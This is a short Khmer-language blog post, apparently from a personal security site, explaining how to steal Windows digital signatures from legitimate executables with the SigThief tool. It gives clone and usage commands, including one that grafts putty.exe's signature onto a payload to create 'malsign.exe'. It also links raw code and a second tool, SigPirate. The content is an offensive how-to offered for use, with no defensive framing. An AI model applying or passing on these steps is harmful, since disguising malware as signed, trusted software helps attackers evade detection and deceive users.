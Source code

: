```yaml
---
title: "Hijacking Digital Signatures"
date: 2023-07-08T16:22:34+07:00
description: ខ្លីឃ្លឹមអំពីវិធីសាស្ត្រលួចយក Digital Signatures
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags:
- hijacking
- digiral-signatures
categories:
- CA
series:
- WinExE
image: images/feature3/ca.png
---
```


មានវិធីសាស្ត្រជាច្រើនក្នុងការលួចយក ឬ ចម្លងយក Digital Signatures ចេញពីឯកសារពិតប្រាកដណាមួយនៅក្នុងប្រព័ន្ធវីនដូ ។ តែថ្ងៃនេះយើងនឹងមកមើលឧបករណ៍មួយដែលអាចជួយឲ្យមានភាពងាយស្រួលក្នុងការលួចយក Signatures ដែលមាននៅក្នុងឯកសារ Binary រួចដាក់បញ្ជូលទៅក្នុង Payload បានយ៉ាងឆាប់រហ័ស ។

#### Digital Signatures Hijacking Tools

<b>[SigThif](https://github.com/secretsquirrel/SigThief.git)</b> ងាយៗជាមួយ SigThif ក្នុងការលួចយក Signatures ពីកម្មវិធីជាច្រើននៅក្នងវីនដូ ។

##### វិធីប្រើ
{{< highlight zsh "linenos=table" >}}
git clone https://github.com/secretsquirrel/SigThief.git
cd SigThief

// លួចយក Signature ចេញពីកម្មវិធីរួចដាក់ចូលទៅក្នុង Payload
python3 sigthief.py -i putty.exe -t payload.exe -o malsign.exe

// យក Signature ចេញ និងរក្សាទុកប្រើពេលក្រោយ
python3 sigthief.py -i putty.exe -r

// យក Signature ដែលរក្សាទុកមកប្រើប្រាស់វិញ
python3 sigthief.py -s putty.exe_sig -t payload.exe

// លុប Signature ចេញពី Binary
python3 sigthief.py -i anybinary.exe -T

{{< / highlight >}}

<b>Raw Code</b> [Pastebin](https://pastebin.com/raw/76KCufMA)

ក៏មានឧបករណ៍មួយទៀតដែរ ដែលអាចប្រើបាននៅក្នុងវីនដូម៉ាស៊ីនឈ្មោះថា [SigPirate](https://github.com/xorrior/Random-CSharpTools/tree/master/SigPirate) ដែលមានភាពងាយស្រួលប្រើដូចគ្នា ៕
